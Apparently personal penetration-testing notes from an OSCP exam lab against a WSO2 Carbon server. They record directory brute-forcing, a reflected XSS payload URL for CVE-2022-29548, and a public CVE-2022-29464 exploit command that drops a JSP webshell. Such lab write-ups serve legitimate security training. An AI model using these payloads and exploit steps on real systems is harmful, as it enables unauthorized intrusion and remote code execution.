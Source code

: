 - Checking WorkflowCallbackService directory
- https://192.168.118.101:8243/services/WorkflowCallbackService.WorkflowCallbackServiceHttpsSoap11Endpoint
- http://192.168.118.101:8280/services/WorkflowCallbackService.WorkflowCallbackServiceHttpSoap11Endpoint


![[Penetration Testing v2/oscp pass 20230412/AD Set/MS01 192.168.118.101/screenshots/workflowcallbackservice.png]]

- With dirsearch found a login page @ the /authorize directory
```
# https://192.168.118.101:9443/carbon/admin/login.jsp
┌──(root㉿kali)-[/home/kali/Documents/12apr_exam/192.168.118.124]
└─# dirsearch -e php,html,js,asp,aspx -u http://192.168.118.101:8280 -x 400,401,403 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![[Penetration Testing v2/oscp pass 20230412/AD Set/MS01 192.168.118.101/screenshots/dirsearch results.png]]

![[Penetration Testing v2/oscp pass 20230412/AD Set/MS01 192.168.118.101/screenshots/ws02 carbon login page.png]]

- once i hit this login page looked up exploits and found https://github.com/cxosmo/CVE-2022-29548
- I didnt modify anything on it, threw it into the url and it worked with the IP address given
-   Payload snippet: `https://192.168.118.101:9443/carbon/admin/login.jsp?loginStatus=false&errorCode=%27);alert(document.domain)//`

![[Penetration Testing v2/oscp pass 20230412/AD Set/MS01 192.168.118.101/screenshots/CVE 2022 29548.png]]

![[Penetration Testing v2/oscp pass 20230412/AD Set/MS01 192.168.118.101/screenshots/Utilizing The Exploit.png]]

- on as admin@carbon.super
- OS System user Bob.martin

![[Penetration Testing v2/oscp pass 20230412/AD Set/MS01 192.168.118.101/screenshots/Pasted image 20230412134139.png]]

- beginning enumeration to find a place to put a reverse shell

home > extensions > add location - needs a .jar file, going to keep looking
![[rev shell location maybe.png]]

- was unable to find a way to upload shell

- Was able to get webshell via https://github.com/hakivvi/CVE-2022-29464
	- DIDNT MODIFY AT ALL
![[CVE-2022-29464 Exploit github example.png]]

#webshell
```
┌──(root㉿kali)-[/home/kali/Documents/12apr_exam/ADset]
└─# python3 exploit.py https://192.168.118.101:9443/ pwned.jsp
shell @ https://192.168.118.101:9443//authenticationendpoint/pwned.jsp

```

